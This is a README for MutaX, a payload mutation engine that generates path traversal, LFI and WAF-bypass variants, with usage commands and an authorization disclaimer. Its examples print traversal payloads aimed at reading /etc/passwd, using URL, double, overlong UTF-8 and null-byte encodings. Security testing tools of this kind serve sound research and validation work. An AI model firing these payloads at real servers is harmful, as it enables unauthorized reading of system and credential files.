

# MutaX

MutaX is a payload mutation engine. It generates traversal, LFI, path normalization, and WAF bypass payload variants
with composable mutators, profile-aware selection, deduplication, scoring, entropy, and
transformation history.

> Ethical use only: run MutaX only in systems, labs, and engagements where you have explicit
> authorization. The project is designed for defensive validation, research, and professional
> security testing.

## Features

- Modular mutation engine with a shared `Mutator` abstract base class
- Direct and chained transformation pipelines
- Directory traversal, LFI bypass, and path normalization payload support
- URL, double URL, mixed, Unicode slash, overlong UTF-8, null-byte, case, and separator mutators
- Apache, nginx, IIS, generic, and WAF-oriented profiles
- Deduplication, optional similarity filtering, score ranking, entropy calculation, and history
- Rich terminal interface with grouped output, statistics, color, and tree views
- JSON and text export support
- YAML config support
- Docker, pytest tests, modern packaging, and typed Python 3.12 code

## Architecture



Each mutator emits candidate payload strings. The core pipeline attaches metadata, score,
entropy, category, and transformation history, then deduplicates and sorts results.

## Installation

```bash
python3.12 -m venv .venv
source .venv/bin/activate
pip install -e ".[dev]"
```

Run the CLI:

```bash
mutax -p "../../etc/passwd"
python -m mutax -p "../../etc/passwd" --profile apache
```

## Usage

Generate default mutations:

```bash
mutax -p "../../etc/passwd"
```

Use a profile:

```bash
mutax -p "../../etc/passwd" --profile apache
mutax -p "../../etc/passwd" --profile nginx
mutax -p "../../etc/passwd" --profile iis
mutax -p "../../etc/passwd" --profile waf
```

Enable chained transformations:

```bash
mutax -p "../../etc/passwd" --profile apache --chain --verbose
```

Export:

```bash
mutax -p "../../etc/passwd" --output payloads.txt
mutax -p "../../etc/passwd" --json --output payloads.json
```

Use config:

```bash
mutax -p "../../etc/passwd" --config examples/config.yml
```

List profiles:

```bash
mutax profiles
```

## Screenshots

The Rich interface renders a clean banner, run statistics, and grouped mutation tree:

```text
+--------------------------------+
| MutaX  Payload Mutation Engine |
+--------------------------------+

Run Statistics
Metric              Value
Seed                ../../etc/passwd
Profile             apache
Chained             no
Unique payloads     28
Duplicates removed  4

Mutation Groups
├── url-encoding (3)
│   ├── 01 ..%2f..%2fetc%2fpasswd
│   └── 02 %2e%2e%2f%2e%2e%2fetc%2fpasswd
└── utf8-overlong (2)
    └── 01 ..%c0%af..%c0%afetc%c0%afpasswd
```

## Mutation Examples

Seed:

```text
../../etc/passwd
```

Examples:

```text
..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252fetc%252fpasswd
..//..//etc//passwd
..%c0%af..%c0%afetc%c0%afpasswd
..\\..\\etc\\passwd
../../etc/passwd%00
.%2e/.%2e/etc/passwd
```

## Normalization Bypasses

Many web stacks normalize paths in layers: proxy, framework router, application code, and
filesystem adapter. A proxy may inspect one representation while a downstream component decodes
or normalizes again. MutaX explores those representation gaps by varying dot segments, slash
forms, encoded separators, platform separators, case, and legacy parser terminators.

MutaX does not send traffic. It produces response-ready mutation records that a future HTTP
testing module can consume with explicit target authorization.

## Docker

Build:

```bash
docker build -t mutax .
```

Run:

```bash
docker run --rm mutax -p "../../etc/passwd" --profile apache
docker compose run --rm mutax -p "../../etc/passwd" --chain --verbose
```

## Development

```bash
pip install -e ".[dev]"
pytest
ruff check .
mypy mutax
```

## Extending Mutators

Create a class that inherits `Mutator`, define `name`, `description`, `category`, and implement
`mutate()`:

```python
from collections.abc import Iterable
from mutax.core.mutator import Mutator

class CustomMutator(Mutator):
    name = "custom"
    description = "Custom research transform."

    def mutate(self, payload: str) -> Iterable[str]:
        yield payload.replace("/", "%2f")
```

Add the class to `BUILTIN_MUTATORS`, then include its name in a profile.

## Roadmap

- HTTP request runner that consumes `MutationBatch`
- Response clustering and baseline comparison
- Custom plugin loading for external mutator packages
- SARIF and CSV exporters
- Corpus-driven profile tuning
- Interactive TUI mode with filtering and live previews

Developed by:

Arghya Sikdar

Assistant Professor of Cyber Security
